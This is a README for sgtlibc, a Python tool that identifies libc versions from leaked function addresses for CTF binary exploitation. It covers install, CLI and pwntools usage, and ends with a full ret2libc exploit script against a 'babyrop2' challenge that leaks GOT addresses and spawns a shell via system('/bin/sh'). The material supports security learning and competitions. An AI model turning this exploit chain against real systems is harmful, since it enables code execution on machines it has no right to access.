 

<p align="center">
    <a href="https://visitorbadge.io/status?path=https%3A%2F%2Fgithub.com%2Fserfend%2Fsgtlibc%2F"><img src="https://api.visitorbadge.io/api/visitors?path=https%3A%2F%2Fgithub.com%2Fserfend%2Fsgtlibc%2F&labelColor=%23697689&countColor=%23ff8a65&style=plastic&labelStyle=none" /></a>
    <a href="https://pypi.python.org/pypi/sgtlibc/"><img alt="pypi version" src="https://img.shields.io/pypi/v/sgtlibc.svg" /></a> 
    <a href="https://pypistats.org/packages/sgtlibc"><img alt="pypi download" src="https://img.shields.io/pypi/dm/sgtlibc.svg" /></a>
    <a href="https://github.com/serfend/sgtlibc/releases"><img alt="GitHub release" src="https://img.shields.io/github/release/serfend/sgtlibc.svg?style=flat-square" /></a>
    <a href="https://github.com/serfend/sgtlibc/releases"><img alt="GitHub All Releases" src="https://img.shields.io/github/downloads/serfend/sgtlibc/total.svg?style=flat-square&color=%2364ff82" /></a>
    <a href="https://github.com/serfend/sgtlibc/commits"><img alt="GitHub last commit" src="https://img.shields.io/github/last-commit/serfend/sgtlibc.svg?style=flat-square" /></a>
    <!-- <a href="https://github.com/serfend/sgtlibc/actions/workflows/pytest.yml"><img alt="GitHub Workflow Status" src="https://github.com/serfend/sgtlibc/actions/workflows/pytest.yml/badge.svg" /></a> -->
</p>





![Windows](https://img.shields.io/badge/Windows-0078D6?style=for-the-badge&logo=windows&logoColor=white)![Linux](https://img.shields.io/badge/Linux-FCC624?style=for-the-badge&logo=linux&logoColor=black)![Ubuntu](https://img.shields.io/badge/Ubuntu-E95420?style=for-the-badge&logo=ubuntu&logoColor=white)![Kali](https://img.shields.io/badge/Kali-268BEE?style=for-the-badge&logo=kalilinux&logoColor=white)![FreeBSD](https://img.shields.io/badge/-FreeBSD-%23870000?style=for-the-badge&logo=freebsd&logoColor=white)![Deepin](https://img.shields.io/badge/Deepin-007CFF?style=for-the-badge&logo=deepin&logoColor=white)![Debian](https://img.shields.io/badge/Debian-D70A53?style=for-the-badge&logo=debian&logoColor=white)![Cent OS](https://img.shields.io/badge/cent%20os-002260?style=for-the-badge&logo=centos&logoColor=F0F0F0)

# What?

[sgtlibc](https://github.com/serfend/sgtlibc) is a a offline python-lib for search libc function.



## Install

```shell
pip install sgtlibc
```



## Usage

```shell
usage: sgtlibc [-h] [-d [DUMP ...]] [-i [INDEX]] [-s [SYMBOLS]] [-u [UPDATE]] [-v [VERSION]] [funcs_with_addresses]

a offline python-lib for search libc function.for search version of libc.you can use like:`sgtlibc puts:aa0+read:140 --dump system binsh` or in python , like : `py:import sgtlibc;s =
sgtlibc.LibcSearcher();s.add_condition('puts',0xaa0)`

positional arguments:
  funcs_with_addresses  specify `func-name` and `func address` , split by `|`,eg: puts:aa0+read:140 , its means func-puts address = 0xaa0;func-read address = 0x140 (default: None).

options:
  -h, --help            show this help message and exit
  -d [DUMP ...], --dump [DUMP ...]
                        select funcs to dump its info (default: ['__libc_start_main_ret', 'system', 'dup2', 'read', 'write', 'str_bin_sh']).
  -i [INDEX], --index [INDEX]
                        db index on multi-database found occation (default: 0).
  -s [SYMBOLS], --symbols [SYMBOLS]
                        convert libc-elf file to symbols-file,use `libc_path [alias]` to convert.
  -u [UPDATE], --update [UPDATE]
                        update current libc database from internet , need non-microsoft-windows environment (default: False).
  -v [VERSION], --version [VERSION]
                        show version
```





## Quick Start

- in cmd.exe` or `/bin/sh`

```shell
sgtlibc puts:aa0
sgtlibc puts:aa0+read:140
sgtlibc puts:aa0+read:140 --dump system binsh
```

- in `python3`

```python
import sgtlibc
s = sgtlibc.Searcher()
s.add_condition('puts', 0xaa0)
s.add_condition('read',0x140)
print(s.dump())
print(s.dump(['system','str_bin_sh']))
```



## Example

- `main args` specify `func-name` and `func address` ,**SHOULD split by `|` **

  eg: `puts:aa0+read:140` which means:

  - func-`puts` address = `0xaa0`
  - func-`read` address =` 0x140`

- `--update` is for update libc database from internet base on `libc-database` , **require non-microsoft-window**  system

### python run

- run [python code above](/#/Quick Start) , you'll get output-result like following shows:

![image-20220605212842313](https://raw.githubusercontent.com/serfend/res.image.reference/main/image-20220605212842313.png)

### command run

- run command in terminal , you'll get output-result like following shows:

  ![image-20220605213023151](https://raw.githubusercontent.com/serfend/res.image.reference/main/image-20220605213023151.png)

### pwntools run

- use in `pwntools`

```python
from pwn import * # should run pip install pwntools before
import sgtlibc
s = libc.Searcher()
puts_addr = 0xf71234567aa0 # from leak data
s.add_condition('puts',puts_addr)
s.dump(db_index=0) # search libc , if returns multi-result ,default use index-0's result
system_addr = p00(s.get_address(sgtlibc.s_system))
binsh_addr = p00(s.get_address(sgtlibc.s_binsh))
```



### use user-libc database

> search libc from user-directory

```python
from sgtlibc.utils import configuration as config
def test_use_user_libc():
    lib_path = './libs' # here input your libc directory
    config.set(config.extension_database_path, lib_path)
    s = LibcSearcher('puts', 0xf7007)
    s.decided()
```



### add user-libc database

> add a libc.so file to database

```bash
sgtlibc -s ./libc.from_user.so:alias_input_here
```

or

```python
from sgtlibc.main import do_symbols
do_symbols(f'./libc.from_user.so:alias_input_here')
```

## CTF Problem Solve DEMO

[view all sameple files](https://github.com/serfend/sgtlibc/tree/main/samples/libc-leak/x64-babyrop)

- use exploit code

```python
import sgtlibc
from sgtlibc.gamebox import *
set_config(GameBoxConfig(
    is_local=True, file='./babyrop2', remote='192.168.0.1:25462',
    auto_load=True,
    auto_show_rop=True,
    auto_show_summary=True,
    auto_start_game=True,
    auto_load_shell_str=True,
    auto_show_symbols=True
))
s = sgtlibc.Searcher()
elf = client.elf
def exp():
	payload_exp = [b'a' * (28 + 4),fakeebp()] # overflow position
    return payload_exp
def leak(func: str):
    payload = exp()
    # here will auto-pack to p64, you can use p64 or p00 as same effect.
    payload += [elf.rop['rdi'],elf.got[func],elf.plt['printf'],elf.symbols['main']]
    sl(payload)
    rl()
    data = rc(6).ljust(8, b'\0')
    data = uc(data)
    s.add_condition(func, data)
    return data
leak('printf')
leak('read')
data = s.dump(db_index=2)  # choose your system index
system_addr = s.get_address(sgtlibc.s_system)
binsh_addr = s.get_address(sgtlibc.s_binsh)
log.info(f'system_addr:{hex(system_addr)}')
log.info(f'binsh_addr:{hex(binsh_addr)}')
payload = exp() 
payload += [elf.rop['rdi'],binsh_addr,system_addr, fakeebp()]
    
sl(payload)
interactive()
```

- result

![image-20220609134743902](https://raw.githubusercontent.com/serfend/res.image.reference/main/image-20220609134743902.png)





## Notice

> default libc database is update on `2022-06-01`,which long-time ago , we fully recommanded to update it by run `sgtlibc --update`



## Status

![Alt](https://repobeats.axiom.co/api/embed/7d8920fddffed00ee7feb8d172bc7b48c86da3b8.svg "Repobeats analytics image")
